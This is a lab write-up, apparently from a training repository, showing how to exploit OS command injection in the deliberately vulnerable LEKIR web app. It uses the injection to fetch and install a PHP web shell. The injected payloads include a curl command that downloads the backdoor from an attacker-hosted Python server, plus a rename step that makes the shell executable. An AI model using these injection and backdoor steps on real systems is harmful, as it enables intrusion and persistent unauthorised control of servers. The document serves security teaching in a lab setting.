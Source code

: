 # Backdoor.php

In this writeup, we will be demonstrating the use of implementing a backdoor inside the LEKIR vulnerable web app

After running the LEKIR Docker container and accessing it through the browser, navigate to the OS command injection category at Low level

![Figure1](./imgs/img1.png)

![Figure2](./imgs/img2.png)

## 1st Step: Identfying Vulnerabilities

Input any valid IP. Let's try Google's

![Figure3](./imgs/img3.png)

Seems to work like a normal ping service should

![Figure4](./imgs/img4.png)

Now we get to the fun part, Payloads. Just try out any one in the list

![Figure5](./imgs/img5.png)

As you can see, we succeded in listing the contents in the current directory using the && operator

![Figure6](./imgs/img6.png)

## 2nd Step: Exploiting Vulnerabilities

Since this web app uses PHP as its backend, we can just exploit it by using a PHP backdoor script. By default the backdoor script is already in our Kali Linux machine, we just need to get it on the vulnerable web app. You can find the script by using the `locate` command in the terminal

![Figure7](./imgs/img7.png)

navigate to the appropriate directory of the script by using `cd /usr/share/webshells/php`

Now what we need to do is host a simple webserver to serve the script which is inside the current directory

We can launch a simple HTTP server using python by entering this command:

`
python -m http.server 8008
`

To see if the server was launched successfully. Go to the browser and enter 'localhost:8008'. It should show up like this:

![Figure8](./imgs/img8.png)

Now that's done, there are 2 ways we can download / retrieve the backdoor script on the vulnerable web app now that it is on a webserver.

- **wget**

check if wget is installed in the vulnerable system by entering `wget -h`

![Figure9](./imgs/img9.png)

Looks like wget is not installed, let's move on to the next method

- **curl**

like before, let's check if it is installed

![Figure10](./imgs/img10.png)

Now we can begin downloading the backdoor script. Before that, go to the terminal where the python webserver is hosted. Copy the url which is the server's address and port. In my case it will look like this.

`
http://0.0.0.0:8080/
`

Another thing we need to add at the end of the url is the file we want to download. specify the name of the backdoor

`
http://0.0.0.0:8080/php-backdoor.php
`

Another thing we also need to change is the ip of the url, depending on how you deploy the LEKIR Framework, you need to identify the suitable interfaces to use. '0.0.0.0' means that the webserver is listening on all network interfaces. In my case, i will need to use the Docker interface since I deployed it using Docker

You can check the available interfaces using:

`
ip a
`

![Figure11](./imgs/img11.png)


The current payload will look like this

![Figure12](./imgs/img12.png)

Try running the command

![Figure13](./imgs/img13.png)

If the output looked like this, it means that it did not work. Why?

Because as I have said earlier, PHP is a backend language. When we use curl or wget for that matter to request the file, the webserver will execute the PHP script and return the output such as HTML or JSON rather than the raw PHP source code itself.

What we can do to fix this issue is changing the file type of the script. Let's change it to a .txt file using this command:

`
mv php-backdoor.php php-backdoor.txt
`

Oh and also, do it in another tab of the terminal and don't `Ctrl + C`  the python webserver hahah xD

![Figure14](./imgs/img14.png)

Change the payload 

`
8.8.8.8 && curl -O http://172.17.0.1:8080/php-backdoor.txt
`

The `-O` flag is used to specify the output name of the file when it is downloaded, here I am saving it with its original name

![Figure15](./imgs/img15.png)

Let's try and see if it worked

![Figure16](./imgs/img16.png)

It didn't execute the file. Let's verify this by using `ls`

![Figure17](./imgs/img17.png)

Great!! it worked, our backdoor is downloaded. On to the next step.

## 3rd Step: Gaining Access

Now that the backdoor script is inside the vulnerable system, we can execute it. But wait...remember that we changed it from a .php file to a .txt file? .txt files are for reading only

We can simply resolve this issue by just changing it back to a .php file in the input field using the `mv` ('Everyone probably knew this ^_^')

`
8.8.8.8 && mv php-backdoor.txt php-backdoor.php
`

verify it once again

![Figure18](./imgs/img18.png)

everything is set, now we can finally execute the backdoor. Navigate to the URL and enter the filename of the backdoor in the current directory

![Figure19](./imgs/img19.png)

Run it

![Figure20](./imgs/img20.png)

What you are seeing is the web-based control panel of the backdoor, allowing you to interact with the server in various ways including command execution, file upload, directory browsing and database query execution

(In other words, the backdoor worked)




















